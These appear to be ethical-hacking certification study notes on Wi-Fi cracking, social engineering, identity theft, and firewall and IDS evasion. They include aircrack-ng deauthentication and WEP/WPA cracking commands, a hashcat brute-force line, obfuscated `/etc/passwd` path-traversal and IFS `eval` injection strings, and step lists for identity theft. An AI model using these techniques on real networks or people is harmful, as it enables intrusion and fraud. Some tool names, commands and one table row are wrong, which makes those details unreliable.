- [Network Security Toolkit](https://www.networksecuritytoolkit.org)
  - Bootable Fedora with network security tools
- [SecPoint® Penetrator™ Vulnerability Scanner & Assessment](https://www.secpoint.com/penetrator.html)
  - Comes with WiFi pen-testing tools
- [SILICA](https://www.immunityinc.com/products/silica/)
  - Automated, WiFi specific, vulnerability assessment and penetration tool.
- [WebSploit](https://github.com/websploit/websploit)
  - MITM framework with WiFi attacks
- [Airbase-ng](https://aircrack-ng.org)
  - Multi-purpose tool aimed at attacking clients as opposed to the Access Point (AP) itself

## Wi-Fi security tools for mobile

- [Wifi Protector](https://wifi-protector.en.softonic.com/android?ex=CORE-139.6)
  - Android WiFi firewall
- [WiFiGuard](https://www.wifiguardapp.com/)
  - iOS/Android app to scan and detect devices on WiFi network
- [Wifi Inspector](https://play.google.com/store/apps/details?id=lksystems.wifiintruder&hl=en)
  - Android app to scan and detect devices on WiFi network
- [ARP Guard](https://play.google.com/store/apps/details?id=com.myprog.arpguard&hl=en&gl=US)
  - Android app for protection against network attacks including ARP posioning.
# Wireless threats and attacks

## Wireless threats

- **Access control attacks**
  - Evading access control measures such as Access Point MAC filters, port access control
- **Integrity attacks**
  - Sending forged frames
  - E.g. data frame injection, bit-flipping.
- **Confidentiality attacks**
  - Intercepting confidential information transmitted over the network
  - E.g. traffic analysis, session hijacking, MITM, etc...
- **Availability attacks**
  - Attempting to prevent users from accessing WLAN resources.
  - E.g. flooding, ARP poisoning, De-Authentication attacks
- **Authentication attacks**
  - Steal identity information or impersonating clients
  - E.g. password cracking, identity theft, password guessing
  - See also [Authentication attacks | Hacking Web Applications](./../13-web-applications/hacking-web-applications.md#authentication-attacks)
- **Misconfigured access point attack**
  - Accidents for configurations that you can exploit
- **AD Hoc connection attack**
  - Connecting directly to another device via ad-hoc network.
  - Not very successful as the other user has to accept connection
- **Honeyspot access point attack**
  - Using multiple WLANs in area and use same SID.
- **AP MAC spoofing**
  - MAC spoofing to mask an authorized client
- **Jamming signal attack**
  - Jamming or blocking the wireless communication, causing a denial of service

### De-authentication attack

- Also known as **deauthentication attack**
- Used to capture the handshake traffic.
- Can also be used to DoS the client by continuously de-authenticating the device.

### Evil twin attack

- Also known as **client mis-association**
- 📝 A rogue access point outside the place with the legitimate one
- E.g. can lure the employees of the organization to connect with it
- Can be done using [Airsnarf](http://airsnarf.shmoo.com/)

#### Honeyspot attack

- Faking a well-known hotspot on a rogue AP
- E.g. as McDonald's or Starbucks free Wi-Fi spot

### Rogue Access Point Attack

- Fake AP with same SSID as legitimate one.
- Allows hijacking connections and acting as a middle man sniffing
- Differs from [evil twin attack](#evil-twin-attack) as it focuses on MITM instead of WiFi passwords.

### Sinkhole attack

- Compromised node tries to attract network traffic by advertise its fake routing update.
- Allows traffic to be directed away from its target.
- Can be used to launch other attacks like dropping or altering routing information.

#### DNS sinkhole

- Also known as a ***sinkhole server***, ***Internet sinkhole***, or ***Blackhole DNS***
- DNS server that gives out a false result for a domain name.
- Used to attack on sensor/IoT device networks
- Can be prevented by owning own DNS server or hardcoding IP addresses.
- E.g. [WannaCry malware was stopped](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack#Defensive_response) spreading as a worm by Marcus Hutchins who discovered kill switch in the malware and Registering a domain name for a DNS sinkhole.

## Wireless hacking methodology

1. **[Wi-Fi Discovery](#wireless-discovery)**
   - find wireless networks
2. **GPS mapping**
   - List of discovered Wi-Fi networks
3. **Wireless Traffic Analysis**
   - Capture the packets to reveal any information (SSID, authentication method, ...)
4. **Launch Attacks**
   - E.g. ARP poisoning, MAC spoofing, De-Authentication, Rogue access point, MITM.

### Wireless discovery

- Also known as Wi-Fi discovery
- **Wardriving**: Using a mobile vehicle to detect WiFi networks
  - 📝 E.g. [T.J. Maxx Data Theft](https://www.informationweek.com/tj-maxx-data-theft-likely-due-to-wireless-wardriving/d/d-id/1054964?) where 45 million credit/debit card data was stolen because of weak WEP encryption.
  - Also used: warbiking, warcycling, warwalking.
  - **Warchalking**: drawing of symbols in public places to advertise an open Wi-Fi network.
- Tools such as WiFiExplorer, WiFiFoFum, OpenSignalMaps, WiFinder
  - WIGLE: map for wireless networks
  - [NetStumbler](http://www.netstumbler.com/downloads/): Windows tool to find networks
  - [Kismet](./../08-sniffing/sniffing-tools.md#kismet)
    - Wireless network detector, sniffer, and intrusion detection system.
    - Works without sending any packets (passively)
  - [NetSurveyor](http://nutsaboutnets.com/archives/netsurveyor-wifi-scanner/): Windows tool similar to NetStumbler and Kismet
  - [Silica](https://www.immunityinc.com/products/silica/): Discovers and shows vulnerabilities

## Wireless encryption attacks

### WEP cracking

- Weak IV (Initialization Vectors)
  - Small
  - Get reused frequently
  - Are sent in clear text during transmission
- Can take a few seconds to discover the shared secret key.
- The goal is to collect as many IVs as possible
  - 💡 Inject packets to speed it up
- 📝 Can be cracked using Aircrack-ng:
  1. Listen to the traffic
     - Start a compatible adapter with injection and sniffing capabilities
     - `airmon-ng start <interface-name>`
  2. Start a sniffer to capture packets
     - `airodump-ng --bssid <AP-MAC-address> -c 11 -w <output-file> <interface-name>`
  3. Create more packets to escalate the process to collect more IV
     - Inject ARP traffic: `aireplay-ng -3 -b 00::09:58:6F:64:1E -h 44:60:57:c8:58:A0 mon0`
  4. Run a cracking tool to extract encryption keys from the collected IVs
     - `aircrack-ng <output-file>.cap`
     - Default method is PTW (Pyshkin, Tews, Weinmann), other (older) supported methods include:
       - FMS (Fluhrer, Mantin, Shamir) attacks: statistical techniques
       - Korek attacks: statistical techniques
       - Brute force
- Using separate tools for sniffing and cracking:
  1. Gathering packets through e.g. Wireshark or Prismdump
  2. Crack using e.g. [WEPCrack](http://wepcrack.sourceforge.net/), [AirSnort](https://sourceforge.net/projects/airsnort/), [Aircrack-ng](https://www.aircrack-ng.org/), and [WEPLab](https://linux.die.net/man/1/weplab)

### WPA/WPA2 cracking

- Much more difficult than WEP
- Uses a constantly changing temporal key and user-defined password
- **Key Reinstallation Attack (KRACK)**
  - Replay attack that uses third handshake of another device's session
- Most other attacks are simply brute-forcing the password that take a lof time.

#### Sniffing 4-way handshake

- 4-way handshake is the ceremony between AP and the device
- Vulnerability in WPA and WPA-Personal (WPA-PSK, pre-shared key)
- During WPA handshake, password is shared in encrypted form (called **PMK (pairwise master key)**)
- Flow:
  1. Client tries to connect to an AP (access point)
     - If the client is already connected then [deauthentication attack](#de-authentication-attack) can be used to disconnect the client and sniff when client is reconnecting.
  2. Grab packets while client goes through a 4-step process of authentication
  3. Crack WPA keys from recorded packets
     - Can be an offline attack e.g. utilizing a cloud virtual machine.
     - E.g. using `hashcat`
- Steps
  1. Recording and deauthenticating using **[`aircrack-ng`](https://www.aircrack-ng.org/)**
     - 🤗 Used often in movies as it looks cool
     - `airmon-ng start <interface-name>` to create a new interface and enable monitor mode
     - `airmon-ng <interface-name>` to list access points with BSSID, encryption (WPA2 etc.) and more.
     - `airmon-ng -c2 -w capture -d <BSSID> <interface-name>` to listen
       - Shows each client MAC and logs their traffics notifying handshakes.
     - `airplay-ng -deauth 100 -a <BSSID> -c <client-MAC> <interface-name>` to inject packets to de-authenticate the client
  2. Crack the password using `hashcat`
     - Convert log files from `airmon-ng` from `.cap` to `.hccapx` using e.g. an [online tool](https://hashcat.net/cap2hccap/)
     - Run `hashcat.bin -a 3 -m 2500 converted-file.hccapx ?d?d?d?d?d`
       - `-m 2500`: hash mode for `WPA-EAPOL-PBKDF2`
       - `-a 3 ?d?d?d?d?d`: attack mode: bruteforce with mask telling 5 any characters.

### WPA3

- More secure against sniffing, brute force and WPS attacks.
- However has implementation bugs that can be exploited using:
  - [potential side channel attacks](https://w1.fi/security/2019-2/eap-pwd-side-channel-attack.txt)
  - [DoS attacks](https://w1.fi/security/2019-3/sae-confirm-missing-state-validation.txt)

### Tools for wireless encryption attacks

#### Aircrack-ng

- 📝 Sniffer, detector, traffic analysis tool and a password cracker
- [Official webpage](https://www.aircrack-ng.org/) | [Source code](https://github.com/aircrack-ng/aircrack-ng)
- Uses dictionary attacks for WPA and WPA2.
  - Other attacks are for WEP only

#### Cain and Abel

- Also known as **Cain & Abel** or **Cain**
- 📝 Windows tool to sniff packets and crack passwords
- Relies on statistical measures and the PTW technique to break WEP
- See also • [Cain and Abel | Web server threats and attacks](./../12-web-servers/web-server-threats-and-attacks.md#cain-and-abel) • [Cain and Abel | Sniffing tools](./../08-sniffing/sniffing-tools.md#cain-and-abel)
# Social engineering overview

- 📝 Art of convincing people to reveal confidential information
- Exploits peoples
  - **unawareness** about importance of data or social engineering attacks
  - **careless** about protecting data
  - **trust**
  - **fear** of consequences of not providing the information
  - **greed** for promised gain for providing requested information
  - **moral obligation** sense
- Type of [footprinting](./../02-footprinting/footprinting-overview.md).
- 🤗 Well-known social engineering examples
  - [**RSA attack**](https://www.washingtonpost.com/blogs/post-tech/post/cyber-attack-on-rsa-cost-emc-66-million/2011/07/26/gIQA1ceKbI_blog.html): $66 million loss based on e-mail with attachment exploiting [zero day](./../01-introduction/information-security-overview.md#zero-day-attack) Flash vulnerability through an Excel macro.
  - [**Ubiquiti networks scam**](https://www.nbcnews.com/tech/security/ubiquiti-networks-says-it-was-victim-47-million-cyber-scam-n406201): $47 million stolen by impersonation of executives with requests to companies finance department.
  - [**US Department of Justice attack**](https://www.trendmicro.com/vinfo/pl/security/news/cyber-attacks/hackers-leak-information-of-30-000-fbi-and-dhs-employees): One employee e-mail was hacked, then hacker pretended to be a new employee and asked for all access codes, ended up with leak of 30.000 FBI and DHS employee data
  - [**Yahoo Customer Account Attack**](https://www.wsj.com/articles/yahoo-triples-estimate-of-breached-accounts-to-3-billion-1507062804): 3 billion users data was stolen and used for social engineering (e.g. if two people are connected)

## Steps of social engineering

1. **Research**
   - Gather enough information about the target company
   - Collected by e.g. [dumpster diving](./social-engineering-types.md#dumpster-diving), scanning, company tour, search on the internet...
2. **Select target**
   - Choose a target employee
   - Some employees are more vulnerable than others
     - Easy targets also known as **Rebecca** and **Jessica** mean a person who is an easy target for social engineering such as the receptionist of a company
     - E.g. receptionists, help-desk personnel, tech support, system administrators, clients.
   - A frustrated target is more willing to reveal information
3. **Relationship**
   - Earn the target employee's trust e.g. by creating a relationship
4. **Exploit**
   - Extract information from the target employee

## Identity theft

- Stealing someone elses personally identifiable information to pose as that person
  - E.g. name, credit card number, social security or driver license numbers
- Can be used to impersonate employees of a target

### Steps of stealing an identity

1. Gather targets information
   - Through e.g. bill from social networks, dumpster diving
   - Information include usually first and last name, date of birth, address, social security number, bank accounts, id card and passport numbers.
2. Fake identity proof: get fake IDs
   - Can be driving licence, ID card, etc...
   - E.g. using stolen bills you can claim the person lost driving license and get new one to an address you choose.
3. Fraud: spend money, unauthorized access, use ID for frauds, etc...
   - Can open new credit card accounts on the victim's name
   - Can sell identity information

### Identity theft countermeasures

- Check the credit card reports periodically
- Safeguarding personal information at home and in the workplace
- Verifying the legality of sources.

## Impersonation on social network sites

## Gaining information through social network sites

- Information is used for spear phishing, impersonation, and identity theft.
- Can e.g. create a fake user group "Employees of the company" in **Facebook**
  - Invite people to group and collect credentials such as birth date, employment/education backgrounds.
- Can scan profile pages in **LinkedIn** and **Twitter**.

### Steps of social media impersonation

1. Gather personal information from Internet including social network sites
   - E.g. full name, date of birth, email address, residential address.
2. Create an account that is exactly the same
3. Carry out social engineering attacks with the account e.g.:
   - Introduce it to targets friends in a convincing way to reveal information
   - Join the target organization's employee groups where they share personal and company information.

### Corporate threats from social network sites

- Social network has vulnerable authentication as it's not isolated like corporate network.
- The employee while communicating on social network may not take care of sensitive information.

## Physical security

- **Physical measures**
  - E.g. air quality, power concerns, humidity-control systems
- **Technical measures**
  - E.g. smart cards and biometrics
- **Operational measures**
  - E.g. policies and procedures to enforce a security-minded operation.
- **Access control**
  - **Biometrics**
    - Something you are
    - **False rejection rate (FRR)**
      - When a biometric rejects a valid user
    - **False acceptance rate (FAR)**
      - When a biometric accepts an invalid user
    - **Crossover error rate (CER)**
      - Combination of the FRR ad FAR; determines how good a system is
- **Environmental disasters**
  - E.g. hurricanes, tornadoes, floods.
- See also [Physical security | Information security controls](./../01-introduction/physical-security.md)

## The Social-Engineer Toolkit (SET)

- [Open-source tool](https://github.com/trustedsec/social-engineer-toolkit) for Linux and macOS
- Available in [Kali Linux](https://tools.kali.org/information-gathering/set)
- Templates and cloning for credential harvesting
- Functions such as website attack vectors, mass mailer attack, sms spoofing, QRCode generator, WAP attack...
# Social engineering types

## Human-based social engineering

### Impersonation

- Also known as ***masquerading***
- 📝 Pretending to be someone else to learn needed information
- A form of [identity theft](./social-engineering-overview.md#identity-theft)
- E.g. as
  - target systems end user
  - technical support working with something that requires information to quickly build trust
  - maintenance personal that'll fix vending machine in canteen to install a honeypot
  - an authoritative figure such as FBI agent

### Masquerading

- 📝 Pretending to be someone who is authorized and/or requires that access.
- Convincing personnel to grant access to sensitive information or protected systems
- Masquerading is more passive compared to [impersonating](#impersonation).

### Eavesdropping

- 📝 Secretly listening other peoples communication without consent.
- E.g. by listening a conversation or reading private messages.

### Shoulder surfing

- 📝 Observing victims when they're using devices such as ATMs, computers, kiosks...
- Can be done long distance with vision enhancing devices such as binoculars.
- E.g. looking at the keyboard as target types its password in an Internet café.

### Dumpster diving

- 📝 Collecting information from the target's trash bins
- 💡 Shredded papers can sometimes indicate sensitive info
- Passive footprinting method
- E.g. bills, financial information, sticky notes, manuals.
- Countermeasure: A safe waste disposal policy

### Reverse social engineering

- 📝 Initiated by the victim that's tricked into contacting the attacker herself
- Attacker poses as an authority figure usually by creating a problem then offering a solution.
- E.g.
  - befriending an employee
  - causing problems (e.g. DoS) at work and offer help.
  - often happens with tech support

### Piggybacking

- 📝 Convincing an authorized personal to let attacker into a secured area
- Can be physical (e.g. a building) or electronics (e.g. a database)
- Differs from [tailgating](#tailgating) as it includes consent of the personal.
- E.g. "it's a delivery just hold the door" or ""I forgot my ID badge, please help"

### Tailgating

- 📝 Gaining access to restricted areas by following another person
- 💡 Can hold a fake badge when doing it.
- Usually caused by employee's politeness like opening or holding the door
  - 💡 Using a wheelchair usually exploits this human vulnerability
- A countermeasure is using man traps as because they only allow single person at a time.

### Vishing

- Use of the telephone to perform the attack (voice and [phishing](#phishing))

## Computer-based social engineering

### Phishing

- 📝 Attack where the attacker sends a link to a malicious website to collect information
- Malicious website usually fakes a legitimate one with a similar URL.
- E.g. someone calls, asks to fill a form, and says it's a company survey and it'll help company a lot.
- URLs are usually sent through e-mail, but can also be sent through:
  - **Spimming** (SPIM=Spam over Instant Messaging)
  - **Spitting** (SPIT=spam over Internet telephony, VoIP spam)

#### Whaling

- 📝 A very targeted attack on a high value victim called "Whale" (big fish)
- Usually targets high-level executives

#### Spear Phishing

- 📝 Using specialized phishing content for a specific person or group of people
- Generate higher response rate as it's more personalized

#### Pharming

- 📝 Redirect a website's traffic to a malicious one
- Can be done through
  - Exploiting DNS vulnerabilities such as [DNS poisoning](./../08-sniffing/sniffing-attacks-overview.md#dns-poisoning)
  - Host file modification
    - Windows location: `C:\Windows\System32\drivers\etc\hosts`
    - Linux location: `/etc/hosts`
    - MacOS X location: `/private/etc/hosts`

#### Phishing countermeasures

##### Detecting phishing e-mails

- Sense of urgency or a veiled threat
- From a bank, company, or social networking site
- Generic greeting
- From a person listed in your email address book
- Malicious attachment
- Official-looking logos
- Offers that seem to be too good to believe
- Links to spoofed websites
- Grammatical/spelling mistakes

##### Anti-phishing tools

- [Netcraft](./../02-footprinting/search-engines-and-online-resources.md#netcraft): maintains malicious site blacklists against phishing.
- [PhishTank](https://phishtank.org/): website containing phishing websites

### Spam mail

- Sent by attacker with malicious links and attachments
- Can get information such as financial information, social security numbers, and network information.

### Baiting

- Installing malware through "need and greed" impulse
- E.g. offering something free if you click a link on a website.

### Pop-up window attacks

- To usually create urge to malicious websites or download malware
- E.g. distribute malware links with message "your machine is infected, click here to clean up"

### Instant chat messenger

- Gathering personal information by chatting with a selected online
- Can get information such as birth dates and maiden names

### Hoax letters

- Emails that issue warnings to the user on new malware that may harm the user's system.

### Chain letters

- Emails that instructs user to forward the mail to the said number of persons
- Usually offer free gifts such as money and software

## Mobile-based social engineering

### Malicious apps

- Created and publish to infect phones and collect data.
- E.g.
  - a replica or similar copy of a popular application
  - ZitMo (ZeuS-in-the-Mobile), a banking malware that was ported to Android

### Repackaging legitimate apps

- Repacking legitimate apps with malware and redistributing in third-party app stores.

### Fake security apps

- Promises security but provides attacker victims data.
- E.g. apps that "victims" victims securely log on to their bank accounts

### SMS phishing

- Also called **SMShishing** or **smishing**
- Sending malicious links through SMS messages and urge their targets to act

## Insider attacks

- Authorized person unintentionally or intentionally compromises the security of a system.
- E.g. spying on competitor company through a job opening to extract information from its employees.
- See also [Insider attacks | Security threats and attacks](./../01-introduction/security-threats-and-attacks.md#insider-attacks).

### Insider types

- **Malicious insiders**
  - Privileged users to inflict harm
  - E.g. dissatisfied or former employees that wants to take revenge
- **Careless and negligent insiders**
  - Make errors and disregard policies
  - E.g. uneducated employees
- **Infiltrators**
  - External actors
  - E.g. hackers
- **Compromised insiders**
  - Allow external threats to act with same privileges as the insider
  - E.g. [Sony breach (2014-15)](https://en.wikipedia.org/wiki/Sony_Pictures_hack) where attackers took over 100 TBs of data.

## Social engineering countermeasures

- **Training**
  - Employee education to increase awareness
- **Separation and rotation of duties**
  - Employees should sign a statement acknowledging that they understand the policies.
- **Least privilege**
  - Giving a user account only those privileges which are essential to perform their intended job function
  - E.g. a user whose sole job function is to creating backups does not need the ability to install software
    - User account will only have rights to run backup and backup-related applications.
- **Monitoring, logging and auditing**
- **Multi-factor authentication**
  - At least for high risk network services e.g. VPNs, cloud services.
- **Strong password policies**
  - Strong authentication
  - Periodic change
  - Complexity requirements
  - Blocks after failed attempts
- **Physical security policies**
  - Access area restrictions
  - Identification of employees by issuing ID cards, uniforms, etc.
- **Access control**
  - For data through e.g. operational guidelines.
- **Proper incidence response time**
  - Proper guidelines for reacting in case of a social engineering attempt.
- **Change-management process**
  - Better documented
- **Anti-virus and anti-phishing defenses**
- **Background check and proper termination process**
  - Insiders with a criminal background and terminated employees are easy targets for procuring information.
# Evading firewalls

- See also • [Bypassing IDS and firewall | Scanning Networks](../03-scanning-networks/bypassing-ids-and-firewall.md) • [Evading IDS](evading-ids.md)

## Firewall evasion techniques

- [Source routing](../03-scanning-networks/bypassing-ids-and-firewall.md#source-routing) to avoid the route of the firewall

### Using fragmented packets

- The idea is to split up the TCP header over several packets to make it harder
- E.g. `-f` command in `nmap`: `nmap -f 192.168.1.12`
  - utilizes 16 bytes per fragment which diminishes the number of fragments
  - to specify own offset size: `nmap --mtu 16 192.168.1.12`
- ❗ Most modern firewall and IDS detect fragmented packets.

### Firewalking

- 📝 Discovers firewall rules using traceroute-like technique with IP TTL expiration
- Works by sending out TCP or UDP packets with a TTL one greater than the targeted gateway
  - Tests if gateway allows the traffic to find firewalls
- Requires knowledge of:
  1. Known gateway (can be firewall) before the host (serves as waypoint)
  2. IP address of a host located behind the firewall.
- ❗ If a host on the other side of the firewall cannot be targeted then firewalking will not be successful
- Also known as ***port knocking***
  - Externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports
- **Tools**
  - [`firewall` script](https://Nmap.org/nsedoc/scripts/firewalk.html) in `nmap`: e.g. `nmap --traceroute --script=firewalk --script-args=firewalk.max-probed-ports=-1 192.168.3.11`
  - [Firewall tool](http://packetfactory.openwall.net/projects/firewalk/index.html) e.g. `firewalk 192.168.1.2 192.168.3.11`
    - Responses can be interpreted as:
      - **`ICMP_TIME_EXCEEDED`**: Gateway forwards packets to next hop where they're expired.
      - **No response**: Port is probably blocked
- **Countermeasures**
  - Use Network Address Translation to hide the addresses on your internal networks
  - Block all outgoing TTL Exceeded in Transit packets in the firewall

### HTTP and ICMP tunneling

- Can be used to bypass firewalls rules through obfuscation of the actual traffic
- Works by injecting arbitrary data into packets sent to a remote computer
- Hard to detect without proper deep packet inspection or log review
- HTTP tunneling (port 80) is almost never filtered by a firewall.

### DNS tunneling

- Also known as **TCP over DNS**
- Provides a TCP tunnel through the standard DNS protocol
- Used to evade firewalls as most firewalls allow DNS traffic to freely pass into and out of the network.
- 🤗💡 May browsing internet in coffee shops for free
- Tools include • [iodine](https://github.com/yarrick/iodine) • [ThunderDNS](https://github.com/fbkcs/ThunderDNS)

## Banner grabbing

- Used to identify firewalls.
- Tools
  - Using [Nmap banner script](https://Nmap.org/nsedoc/scripts/banner.html) `nmap -sV --script=banner <target-ip>`
  - Using [`netcat`](./../03-scanning-networks/banner-grabbing.md#netcat): `nc -v -n 192.168.51.129 21`
# Evading IDS

- See also [SQL evasion](./../14-sql-injection/sql-injection-overview.md#sql-evasion)
- See also [bypassing IDS and firewall when scanning](../03-scanning-networks/bypassing-ids-and-firewall.md), [evading firewalls](evading-firewalls.md)

## Obfuscation

### Path obfuscation

| Type | Clear-text | Obfuscated-text |
| -- | -- | -- |
| Self-referencing directories | `/etc/passwd` | `/etc/./passwd` |
| Double slashes | `/etc//passwd` | `/etc/passwd` |
| Path traversal | `/etc/passwd` | `/etc/dummy/../passwd` |
| Windows folder separator | `../../cmd.exe` | `..\..\cmd.exe` |
| IFS (Unix shells) | `/etc/passwd` | `CMD=X/bin/catX/etc/passwd;eval$CMD` |

### URL encoding

- E.g. `http://cloudarchitecture.io/paynow.php?p=attack` becomes `http://cloudarchitecture.io/paynow.php?p=%61%74%74%61%63%6B`
- **Null-byte attacks**
  - Evasion technique and attack at the same time (to get unauthorized access to server files)
  - Effective against applications
    - developed using C-based languages
    - using native file manipulation
  - Can be done by appending `%00`

### Unicode encoding

#### Unicode

- Provides unique identifier for every character in every language
- Facilitates uniform computer representation of the world's languages
- Each character can be represented by U+xxxx where x is a hexadecimal digit.

#### Unicode encoding attack

- Also known as **UTF-8 encoding**
- Presenting information in an unusual way to confuse the signature-based IDS
- 📝 A very common way to evade IDS
- E.g. instead of `http://vulneapplication/../../appusers.txt` using `http://vulneapplication/%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFappusers.txt`

### Encryption

- 📝 Most effective evasion attack
- IDS becomes unable to analyze packets going through these encrypted communications
- E.g. [SSH](./../15-cryptography/tunneling-protocols.md#ssh-secure-shell), [SSL](./../15-cryptography/encrypting-communication.md#ssl-secure-sockets-layer)/[TLS](./../15-cryptography/encrypting-communication.md#tls-transport-layer-security), or [OpenVPN](./../15-cryptography/tunneling-protocols.md#openvpn) tunnel

### Polymorphism

- Using polymorphic shellcode to create unique network patterns to evade signature detection
- E.g. by encoding payload by XORing and putting the decoder in the start of the payload where the target runs the decoder when it executes the code
- Tools include [ADMMutate](https://github.com/K2/ADMMutate): A shellcode mutation engine, can evade NIDS

## Denial of service

- If IDS fails, it allows the traffic to go through
- Passive IDSes are vulnerable as they are fail-open.
- E.g.
  - by exploiting a bug in the IDS, consuming all of the computational resources on the IDS
  - deliberately triggering a large number of alerts to disguise the actual attack.

## False positive generation

- Also known as ***flooding*** or ***false-positive generation***
- 📝 Designed to create a great deal of log noise in an attempt to blend real attacks with the false
- Attackers craft packets known to trigger alerts within the IDS, forcing it to generate a large number of false reports
- Similar to the DoS method is to generate a large amount of alert data that must be logged
- Make is difficult legitimate attacks and false positives by looking at logs
- Can even generate false positives specific to an IDS if attacker has knowledge of IDS used.
- Tools include [inundator](http://inundator.sourceforge.net/): intrusion detection false positives generator.

## Insertion attack

- Exploited by sending packets to an end-system that it will reject but IDS will think are valid.
- By doing this the attacker is ***inserting*** data into the IDS
- Allows attacker to defeat signature analysis and to slip attacks past an IDS.
- An IDS can accept a packet that an end-system rejects.
  - also misbelieving that the end-system has accepted and processed the packet
- As signature analysis use pattern-matching in a stream of data to detect strings.
  - E.g. IDS can easily detect `phf` in HTTP request.
    - But the attacker insert data and make it look like e.g. `pleasdontdetectthisforme` where only `phf` part is sent to the original stream.
- A countermeasure would be making IDS as strict as an end-system to minimize this attacks
  - however it then allows for evasion attacks.

## Session splicing

- Splits the attack traffic in to many packets such that no single packet triggers the IDS.
- Network level attack
- ❗ Not the same as [IP fragmentation](../03-scanning-networks/bypassing-ids-and-firewall.md#packet-fragmentation)
  - Session splicing concerns just HTTP payload in chunks to prevent string matches by IDS.
- Send parts of the request in different packets
  - E.g. `"GET / HTTP/1.0"` may be split across multiple packets to be
    - `"GE"`, `"T "`, `"/"`, `" H"`, `"T"`, `"TP"`, `"/1"`, `".0"`
- Tools include [Nessus](./../05-vulnerabilities/vulnerability-analysis.md#nessus) or [Whisker](#whisker)

## Tools

- [`fragroute`](https://tools.kali.org/information-gathering/fragroute) for [packet fragmentation](../03-scanning-networks/bypassing-ids-and-firewall.md#packet-fragmentation)
- Different scanners such as `nmap` has also [options to evade IDS](https://Nmap.org/book/subvert-ids.html#avoid-ids).
- Also many web vulnerability scanners can be used such as [Nikto](./../05-vulnerabilities/vulnerability-analysis.md#nikto)], [Whisker](#whisker) and [Nessus](./../05-vulnerabilities/vulnerability-analysis.md#nessus)

### Whisker

- Also known as `libwhisker`
- Open-source [perl module](https://sourceforge.net/projects/whisker/) for HTTP-related functions, including vulnerability scanning and exploitation.
- 📝 Helps also to evade IDS with [session splicing](#session-splicing) and tactics including:

  | Name | Explanation/Example |
  | ---- | ------------------ |
  | Method matching | GET -> HEAD |
  | URL encoding | HEX %xx notation |
  | Double slashes | `/` -> `//` |
  | Reverse traversal | `/dir/blahblah/../` |
  | Self-reference directories | `/dir/./././././ == /dir/` |
  | Premature request ending | stop at the first `HTTP/1.?\r\n` |
  | Parameter hiding | `%3f` -> `?` |
  | HTTP mis-formatting | `%20` -> `%09 (TAB)` |
  | Long Urls | `GET /<random>/../dir/a.cgi` |
  | DOS/Win directory syntax | `'/'` -> `\` |
  | NULL method processing | `GET\0` |
  | Case sensitivity | `'abc' -> 'ABC` |
# Firewall overview

- Monitors network traffic and allows or blocks traffic based on a defined set of rules
- Predefined rules ensure only allowed incoming and outgoing traffic can pass through.
- Gateway/filter between two networks usually between private and public (internet)

## Firewall architecture

### Multi-homed firewalls

- Also known as ***multi-homed hosts***, ***multihomed hosts***, ***multi homed hosts***, ***multi homed firewalls*** or ***multihomed firewalls***.
- 📝 A host / firewall that has more than single network interface (NIC)
- Each interface are connected to separate network segments

### Dual-homed firewalls

- Dual-home can be a proxy, gateway, firewall etc.
- A special case of [bastion hosts](#bastion-hosts).
- Allows them to transfer data between the two networks
- Has two interfaces
  - External or public, usually to untrusted network such as Internet
  - Internal or private, usually to trusted network such as Intranet
- **Screened Host**
  - Firewall architecture where two filters are used
  - 

#### Bastion hosts

- Mediates traffic between inside and outside networks
- Designed and configured (hardened) to withstand attacks
- Usually hosts a single service e.g. a proxy server

### Screened subnet firewalls

- Screen subnet is also known as **DMZ** or **perimeter network**.
- Used to secure servers that are accessible from the internet.
- Consists of three zones:
  1. External (e.g. to internet)
  2. 📝 Demilitarized Zone (DMZ)
     - Placed in-between internal (trusted) and external (untrusted) network
     - Usually where bastions are placed
  3. Private (to internal network e.g. intranet)
- 
- Two routers
  1. External router separating traffic from a perimeter network (DMZ)
  2. Internal router separating perimeter from internal network
- Can be achieved through either
  - Single firewall with three interfaces
    - See also [zone-based firewall](#zone-based-firewall)
  - Three different firewalls
    - 💡 Better as compromising one won't compromise all

## Firewall categories

- **Hardware Firewall**
  - Device placed on the network's perimeter
  - Uses packet filtering technique to filter the traffic
  - Can be a standalone device or part of a router
- **Software Firewall**
  - Filters traffic on the installed machine
  - Protects its host from unauthorized access, trojans, viruses, and worms.

### Software vs Hardware firewalls

| Attribute | Hardware firewall | Software firewall |
| --------- | ----------------- | ----------------- |
| Price | More expensive | Cheaper |
| Maintainability | Hard | Easy |
| Speed | Faster response time | Slower response times |
| Interference | Minimal, can easily remove/replace etc. | Difficult to uninstall |

## Firewall types per OSI Layer

- 📝 Technologies used per OSI layer

  | OSI Layer | Firewall technologies |
  | --------- | --------------------- |
  | 7. Application | • Virtual Private Network (VPN) • Application Proxies • Web Application Firewall (WAF) •  Request filtering based on headers and payload |
  | 6. Presentation | • Virtual Private Network (VPN) |
  | 5. Session | • Virtual Private Network (VPN) • Circuit-level gateway |
  | 4. Transport | • Virtual Private Network (VPN) • Packet filtering based on port numbers |
  | 3. Network | • Virtual Private Network (VPN) • Network Address Translation (NAT) • Packet filtering, Stateful multilayer inspection |
  | 2. Data Link | • Virtual Private Network (VPN) • Packet filtering |

- 📝 All vulnerabilities in one layer is independent of the other layer.
  - E.g. cross-site scripting (application layer) vulnerable application would be vulnerable to it regardless of any protection on other layers.
  - Also vulnerabilities exist at network layers would not be visible to a stateful
- 💡 In most cases, you'd use both a L3 and an L7 firewall and the two complement each other.
- See also [OSI model](./../03-scanning-networks/tcpip-basics.md#osi-model)

### Packet filtering firewalls

- Implemented on the Network Layer, usually part of routers
- Designed to analyze each packet individually to apply a set of filters
- 📝 Examines the packets headers for source, destination, protocol, destination port, flags..
- Packet is dropped (not forwarded to its destination) if it does not comply with the predefined rules
- 📝 Can be [stateful](#stateful-firewalls) (mostly, newer) or stateless (older).
- Ineffective in preventing Web Application attacks as port 80 and 443 would not be blocked.

#### Access Control Lists (ACLs)

- Usually packet filtering rules are defined using ACLs (access control lists)
- Known also **Wireless Access Control List (WACL)** as in wireless routers.
- 📝 Type of rule-based access control
- 📝 E.g.
  - In Linux using [iptables](https://en.wikipedia.org/wiki/Iptables), disable all incoming SSH using `iptables -A INPUT -p tcp --dport 22 -j DROP`
  - In Windows it's controlled with `netsh advfirewall` (older: `netsh firewall`)
  - E.g. on [Cisco routers](https://www.cisco.com/c/en/us/support/docs/security/ios-firewall/23602-confaccesslists.html) using `access-list 101 deny tcp any host 100.100.100.1 eq 22`
    - where `101` is sequence number that helps with ordering of the rules
      - the lower the number is the higher priority it gets in the ordering
